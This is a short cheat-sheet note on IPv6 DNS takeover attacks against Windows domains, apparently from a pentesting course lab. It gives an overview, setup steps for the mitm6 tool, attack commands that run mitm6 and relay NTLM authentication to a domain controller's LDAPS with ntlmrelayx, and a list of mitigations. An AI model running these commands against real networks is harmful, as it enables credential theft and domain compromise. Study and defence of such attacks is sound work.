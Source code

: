 # IPv6 Attacks

## Overview

- If both IPv4 and IPv6 are enabled and v4 is the main protocol, DNS for v6 is not configured
- Attacker can impersonate IPv6 DNS server
- Capture authentication requests to DC via LDAP or SMB
- LDAP relay via NTLM

## Exploitation

### Set Up mitm6

```bash
git clone https://github.com/fox-it/mitm6 /opt/mitm6
cd /opt/mitm6
pip3 install -r requirements.txt
python3 setup.py install
```

### IPv6 DNS Takeover via mitm6

```bash
# Run mitm6
mitm6 -d domain.local

# Set up relay against DC
ntlmrelayx.py -6 -t ldaps://192.168.31.10 -wh fakepad.marvel.local -l lootme
```

## Mitigation

- Block DHCPv6 traffic and incoming router advertisements in Windows Firewall via Group Policy
- Disable WPAD if it's not used via Group Policy
- Enable LDAP signing and LDAP channel binding
- Add Administrative users to the `Protected Users` group or marking them as sensitive and cannot be delegated to prevent impersonation of that user via delegation
